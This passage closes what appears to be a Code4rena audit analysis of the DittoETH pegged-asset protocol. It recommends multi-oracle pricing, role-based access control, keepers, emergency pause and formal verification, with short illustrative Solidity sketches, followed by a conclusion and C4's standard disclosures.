* @dev IncomingBid created here instead of BidMatchAlgo to prevent stack too deep
*
* @param asset The market that will be impacted
* @param price Unit price in eth for erc
* @param ercAmount Amount of erc to buy
* @param isMarketOrder Boolean for whether the bid is limit or market
* @param orderHintArray Array of hint ID for gas-optimized sorted placement on market
* @param shortHintArray Array of hint ID for gas-optimized short matching above oracle price
*
* @return ethFilled Amount of eth filled
* @return ercAmountLeft Amount of erc not matched
*/
function createBid(/* ... */) external {
   // ...
}
```

The provided whitepaper and technical documentation offer a high-level overview of the protocol's architecture, components, and functionalities. This documentation helps developers, auditors, and users understand the protocol's design and behavior, facilitating code review, integration, and adoption.

## Recommendations/Architectural Improvements

### Transition to a More Decentralized Oracle Solution

Currently, the DittoETH protocol relies on centralized price oracles, such as Chainlink and Uniswap V3 TWAPs, for obtaining asset prices. While these oracles provide reliable price data, they introduce a level of centralization risk into the system. If these oracles were to fail or be compromised, it could significantly impact the protocol's functionality and security.

**Recommendation:** Consider transitioning to a more decentralized oracle solution, such as a decentralized oracle network or a multi-oracle approach. Decentralized oracle networks, like Tellor or UMA's Oracle, leverage the power of decentralized networks to provide secure and tamper-resistant price data. A multi-oracle approach involves using multiple independent oracles and aggregating their data to reduce the reliance on a single oracle provider.

Example:
```solidity
function getOraclePrice(address asset) internal view returns (uint256) {
   // ...
   uint256 tellorPrice = ITellorOracle(tellorOracleAddress).getPrice(asset);
   uint256 umaPrice = IUMAOracle(umaOracleAddress).getPrice(asset);
   uint256 chainlinkPrice = AggregatorV3Interface(chainlinkOracleAddress).latestAnswer();
   
   // Aggregate prices from multiple oracles
   uint256 aggregatedPrice = (tellorPrice + umaPrice + chainlinkPrice) / 3;
   // ...
}
```

By diversifying the oracle sources and using decentralized solutions, the protocol can reduce its reliance on centralized oracles and enhance its overall security and resilience.

### Implement a More Granular Access Control System

The current access control mechanism in the DittoETH protocol relies on the `onlyDAO` modifier to restrict access to certain critical functions. While this provides a basic level of access control, it may not be granular enough to handle the diverse roles and permissions required in a complex system like DittoETH.

**Recommendation:** Implement a more granular access control system, such as role-based access control (RBAC), to provide finer-grained control over different functionalities and permissions. This can be achieved by defining specific roles, such as `VAULT_MANAGER`, `BRIDGE_OPERATOR`, `LIQUIDATOR`, etc., and assigning these roles to different addresses or contracts.

Example:
```solidity
contract AccessControl {
   mapping(address => mapping(bytes32 => bool)) private _roles;
       
   modifier onlyRole(bytes32 role) {
       require(_roles[msg.sender][role], "AccessControl: sender lacks role");
       _;
   }
  
    function grantRole(bytes32 role, address account) public onlyRole(DEFAULT_ADMIN_ROLE) {
       _roles[account][role] = true;
   }
   
   // ...
}

contract VaultFacet is AccessControl {
   // ...
   
   function depositAsset(address bridge, uint88 amount) external nonReentrant onlyRole(VAULT_MANAGER_ROLE) {
       // ...
   }
   
   // ...
}
```

By implementing a more granular access control system, the protocol can ensure that only authorized entities can perform specific actions, reducing the risk of unauthorized access and enhancing the overall security posture.

### Introduce a Keeper System for Automated Tasks

The DittoETH protocol relies on external actors, such as liquidators and redeemers, to perform certain critical tasks, such as liquidating undercollateralized positions and processing redemption proposals. However, relying solely on external actors may lead to delays or inefficiencies in the execution of these tasks.

**Recommendation:** Introduce a keeper system that automates the execution of certain repetitive and time-sensitive tasks. Keepers are external entities that are incentivized to perform specific actions on behalf of the protocol. They can be implemented as standalone contracts or off-chain bots that monitor the protocol's state and trigger the necessary actions when conditions are met.

Example:
   ```solidity
   contract LiquidationKeeper {
       // ...
       
       function performLiquidation(address asset, address shorter, uint8 id) external {
           // Check if the position is eligible for liquidation
           bool isUndercollateralized = PrimaryLiquidationFacet(primaryLiquidationFacetAddress).isUndercollateralized(asset, shorter, id);
           
           if (isUndercollateralized) {
               // Trigger the liquidation
               PrimaryLiquidationFacet(primaryLiquidationFacetAddress).liquidate(asset, shorter, id);
               
               // Claim keeper reward
               // ...
           }
       }
       
       // ...
   }
   ```

By introducing a keeper system, the protocol can ensure the timely execution of critical tasks, reduce the reliance on manual interventions, and improve the overall efficiency and reliability of the system.

### Implement Circuit Breakers and Emergency Pause Functionality

In the event of unexpected market conditions or potential vulnerabilities, it is crucial for the DittoETH protocol to have mechanisms in place to quickly respond and mitigate risks. Currently, the protocol lacks explicit circuit breakers or emergency pause functionality.

**Recommendation:** Implement circuit breakers and emergency pause functionality to allow the protocol to halt certain operations or freeze assets in case of extreme market volatility or potential security threats. Circuit breakers can be triggered automatically based on predefined thresholds, such as excessive price fluctuations or abnormal trading volumes. Emergency pause functionality can be controlled by a multisig or a decentralized governance mechanism.

Example:
   ```solidity
   contract EmergencyPause is AccessControl {
       bool private _paused;
       
       modifier whenNotPaused() {
           require(!_paused, "Paused");
           _;
       }
       
       function pause() external onlyRole(PAUSE_ROLE) {
           _paused = true;
       }
       
       function unpause() external onlyRole(PAUSE_ROLE) {
           _paused = false;
       }
       
       // ...
   }
   
   contract VaultFacet is EmergencyPause {
       // ...
       
       function depositAsset(address bridge, uint88 amount) external nonReentrant whenNotPaused {
           // ...
       }
       
       // ...
   }
   ```

By implementing circuit breakers and emergency pause functionality, the protocol can quickly respond to adverse situations, protect users' assets, and maintain the stability and integrity of the system.

### Conduct Regular Security Audits and Formal Verification

Given the complexity and critical nature of the DittoETH protocol, it is essential to ensure the highest level of security and correctness of the smart contracts. While the codebase includes extensive testing and follows best practices, regular security audits and formal verification can provide additional assurance.

**Recommendation:** Conduct regular security audits by reputable third-party auditors who specialize in smart contract security. These audits can help identify potential vulnerabilities, suggest improvements, and validate the overall security posture of the protocol. Additionally, consider applying formal verification techniques, such as model checking or theorem proving, to mathematically prove the correctness of critical components and invariants.

Example:
   ```solidity
   // Invariant: The total collateral in the system should always be greater than or equal to the total debt
   invariant totalCollateral() >= totalDebt()
   
   function totalCollateral() public view returns (uint256) {
       // ...
   }
   
   function totalDebt() public view returns (uint256) {
       // ...
   }
   ```

By subjecting the protocol to regular security audits and applying formal verification techniques, the DittoETH team can demonstrate their commitment to security, build trust among users and stakeholders, and ensure the long-term resilience and reliability of the protocol.

## Conclusion

The DittoETH protocol presents a sophisticated and innovative approach to pegged asset issuance and trading on the Ethereum blockchain. By leveraging the power of liquid staked ETH (LSTs) as collateral and introducing an orderbook-based minting mechanism, DittoETH aims to provide a decentralized and efficient platform for creating and exchanging a wide range of pegged assets. The protocol's modular architecture, based on the Diamond standard, promotes separation of concerns, extensibility, and upgradability. The codebase demonstrates a strong commitment to code quality, with extensive testing, comprehensive documentation, and adherence to best practices in smart contract development.

However, the complexity of the DittoETH protocol also introduces various risks and challenges that need to be carefully addressed. The reliance on centralized price oracles, the potential for centralization risks in governance and liquidity provision, and the exposure to systematic risks in the broader DeFi ecosystem are notable concerns that require ongoing monitoring and mitigation strategies. To further enhance the protocol's security, resilience, and long-term viability, several architectural improvements and recommendations have been proposed. These include transitioning to a more decentralized oracle solution, implementing a granular access control system, introducing a keeper system for automated tasks, incorporating circuit breakers and emergency pause functionality, and conducting regular security audits and formal verification.

By addressing these recommendations and continuously iterating on the protocol's design and implementation, the DittoETH team can strengthen the protocol's foundation, mitigate potential risks, and establish DittoETH as a leading platform for pegged asset issuance and trading in the DeFi landscape. However, it is important to acknowledge that the success and adoption of the DittoETH protocol also depend on factors beyond the technical implementation. Building a robust ecosystem of partnerships, attracting liquidity and user adoption, and navigating the evolving regulatory landscape will be critical challenges that the DittoETH team must address to ensure the protocol's long-term growth and sustainability.

In conclusion, the DittoETH protocol represents a significant step forward in the realm of pegged asset issuance and trading on the Ethereum blockchain. With its innovative design, modular architecture, and commitment to security and code quality, DittoETH has the potential to revolutionize the way pegged assets are created and exchanged. However, the protocol's success will depend on the team's ability to address the identified risks, implement the recommended improvements, and foster a thriving ecosystem around the protocol.

### Time spent

41 hours

***

# Disclosures

C4 is an open organization governed by participants in the community.

C4 audits incentivize the discovery of exploits, vulnerabilities, and bugs in smart contracts. Security researchers are rewarded at an increasing rate for finding higher-risk issues. Audit submissions are judged by a knowledgeable security researcher and solidity developer and disclosed to sponsoring developers. C4 does not conduct formal verification regarding the provided code but instead provides final verification.

C4 does not provide any guarantee or warranty regarding the security of this project. All smart contract software should be used at the sole risk and responsibility of users.
